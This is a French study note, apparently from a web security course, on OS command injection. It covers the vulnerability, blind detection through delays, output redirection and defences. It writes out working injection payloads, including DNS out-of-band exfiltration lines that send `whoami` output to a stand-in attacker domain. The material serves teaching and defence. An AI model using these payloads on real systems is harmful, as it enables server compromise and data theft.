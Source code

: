```yaml
---
title: "OS command injection"
category: "Command Injection"
tag: "Web : Serveur"
---
```


## CheckList en pratique
- Injection avec retour d'information : `& whoami &` avec les différents séparateurs de commandes (`&,&&,|,||,;,\n,0x0a,`)
- Bind injection :
    - Détecter en provoquant du délai : `qsParam=test||ping+-c+10+127.0.0.1+||`
    - Exploitation en faire une redirection dans un dossier writable : `email=||whoami>/var/www/images/output.txt||`
    - Exploitation par injection utilisant des techniques **OAST** :
    ``&email=test||nslookup+kgji2ohoyw.web-attacker.com||`` 
    - Exploitation & **exfiltration de données** par injection utilisant des techniques **OAST** : 
    ``&email=test||nslookup+`whoami`.kgji2ohoyw.web-attacker.com||``

## Explication de la vulnérabilité
Cette vulnérabilité web permet à un attaquant d'exécuter une commande de système d'exploitation (OS) sur le serveur sur lequel l'application est exécutée, et compromettre toute l'application et ses données. Souvent, cette attaque amène à une exploitation de l'infrastructure hôte en pivotant sur d'autres systèmes de l'organisation.

## Exécution de commandes arbitraires
Considérons un site de magasin qui vérifie si un article est en stock de la manière suivante :
`https://insecure-website.com/stockStatus?productID=381&storeID=29`
Pour fournir l'information et pour des raisons historiques, la fonctionnalité va appelé une commande shell avec le produit et son ID de la manière suivante :
`stockreport.pl 381 29`, et le retour est renvoyé à l'utilisateur.

Sans protection, l'attaquant peut injection la commande suivante `& echo toto &` ce qui donnera `stockreport.pl & echo toto & 29`

## Commandes utiles
|Purpose of command|Linux|Windows|
|:----|:----|:----|
|Nom de l'utilisateur courant|whoami|whoami|
|système d'exploitation|uname -a|ver|
|configuration réseau|ifconfig|ipconfig /all|
|connections réseau|netstat -an|netstat -an|
|processus courants|ps -ef|tasklist|

## Vulnérabilités d'injection Blind de commandes OS
De nombreuses injections de commandes sont faites en aveugle, ce qui veut dire que l'application ne renvoie pas de sortie de la commande dans la réponse HTTP. On peut exploiter les vulnérabilités en aveugle, mais de différentes manières.

pour illustrer cela, on peut prendre le cas d'une application qui permet de donner un feedback sur un site en donnant son adresse mail et le message de feedback. L'application du côté serveur génère un email vers l'administrateur du site contenant le feedback. 

Pour cela, il peut utiliser un programme `mail` avec les détails, par exemple :
`mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com`
### Détecter les injections de commandes OS en aveugle avec l'utilisation de délais
On peut utiliser une injection de commande qui va ajouter un temps de délai, nous permettant de voir que la commande a bien été injecté.
On peut faire ça avec `ping` par exemple, pour allonger le temps de traitement  :
`& ping -c 10 127.0.0.1 &`
Cette commande va ping son adresse réseau de loopback pendant 10 sec.

### Exploitation d'injections de commandes OS en aveugle par redirection de sortie
On peut rediriger la sortie de l'injection de commandes dans un fichier à l'intérieur de la racine du site web, que l'on peut récupérer avec le navigateur ensuite.

Par exemple, si l'application sert des ressources statiques à partir de l'emplacement du système de fichiers `/var/www/static`, vous pouvez soumettre l'entrée suivante :

`& whoami > /var/www/static/whoami.txt &`

### Exploitation d'injections de commandes OS en aveugle à l'aide de techniques hors bande (OAST)
On peut utiliser une commande injectée qui déclenchera une interaction réseau hors bande avec un système qu'on contrôle, en utilisant des techniques OAST. En voici un exemple :
`& nslookup kgji2ohoyw.web-attacker.com &`

Ce payload utilise la commande nslookup pour provoquer une recherche DNS pour le domaine spécifié. L'attaquant peut surveiller l'exécution de la recherche spécifiée et détecter ainsi que la commande a été injectée avec succès.

On peut aussi exfiltrer facilement la sortie de commandes avec cette technique :
``& nslookup `whoami`.kgji2ohoyw.web-attacker.com &``
Ce qui provoquera une recherche DNS vers le domaine de l'attaquant contenant le résultat de la commande whoami :
`wwwuser.kgji2ohoyw.web-attacker.com`
## Façons d'injecter des commandes du système d'exploitation
De nombreux métacaractère du shell peuvent être utilisés pour effectuer des attaques par OS command injection.
On peut icter les caractères qui servent de séparateurs de commandes, permettant d'enchaîner les commandes.

Sous Windows et Unix on a par exemple :
- `&`
- `&&`
- `|`
- `||`

Sous les systèmes basés sur Unix :
- `;`
- `\n` ou `0x0a`
On a également la possibilité de faire des commandes de types inline :
- `` ` ``
- `$()`

## Comment s'en prémunir
La meilleure manière de s'en prémunir est de ne jamais appeler des commandes OS à partir d'un code provenant de la couche applicative. Il existe des alternatives sécurisées notamment avec des APIs.

S'il est inévitable de faire une commande OS avec une entrée utilisateur, alors une validation de l'entrée doit être faite, ce qui peut inclure :
- une validation à l'aide d'une liste blanche des valeurs autorisées
- une validation si l'entrée doit être un caractère numérique
- une validation des entrées alphanumériques, sans autoriser d'autres caractères comme les espaces ou autres.